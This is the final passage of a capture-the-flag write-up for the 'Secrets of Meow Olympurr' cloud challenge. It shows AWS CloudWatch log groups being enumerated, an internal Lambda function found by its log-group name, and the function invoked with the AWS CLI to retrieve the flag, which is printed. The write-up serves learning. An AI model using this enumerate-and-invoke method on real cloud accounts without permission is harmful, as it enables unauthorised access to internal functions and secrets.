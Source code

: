 ```bash
            "storedBytes": 3807231
        }, 
        {
            "arn": "arn:aws:logs:ap-southeast-1:908166204863:log-group:/aws/lambda/internal-secret-of-MeowOlympurr-webservice:*", 
            "creationTime": 1664456602816, 
            "metricFilterCount": 0, 
            "logGroupName": "/aws/lambda/internal-secret-of-MeowOlympurr-webservice", 
            "storedBytes": 18021
        }
    ]
}
```

And in AWS CloudWatch docs it states

> Lambda automatically integrates with CloudWatch Logs and pushes all logs from your code to a CloudWatch Logs group associated with a Lambda function, which is named /aws/lambda/\<function name>.

So we also have the function names and can invoke them directly. 

```bash
$ aws lambda invoke --function-name internal-secret-of-MeowOlympurr-webservice output --profile stf
```

The above command would output the flag into the file `output`. However, 3am me copy-pasted the command from my previous writeup and just replaced the function name, not noticing there was an output file. Seeing how there was no flag, I assumed that it was outputted into the logs. So I went to read all the logs, invoked all the functions, and read those logs too. This was how I found out (by reading other participants' submitted URLs) that there was the SSRF rabbit hole way back which I accidentally passed. Lucky me. 

Only 2 hours later did I decide to run a `ls` on my system.  

```bash
$ cat output 
{"statusCode": 200, "headers": {"Content-Type": "application/json", "Access-Control-Allow-Origin": "*"}, "body": "{\"Message\": \"STF22{LIveInTh3Me0wmen7_:3}\"}", "isBase64Encoded": false}
```

Flag: `STF22{LIveInTh3Me0wmen7_:3}`


Conclusion
------

Like TISC, Secrets of Meow Olympurr was also terribly long but without the luxury of time to slowly work through it. However, what I did have was the experience of working on the TISC challenge. This challenge tested my application of what I had learnt, at the same time exposing me to Azure. In summary, I feel that this challenge was really educational for cloud noobs like myself, but for such a long challenge, it would've been nice if it was worth more points. 
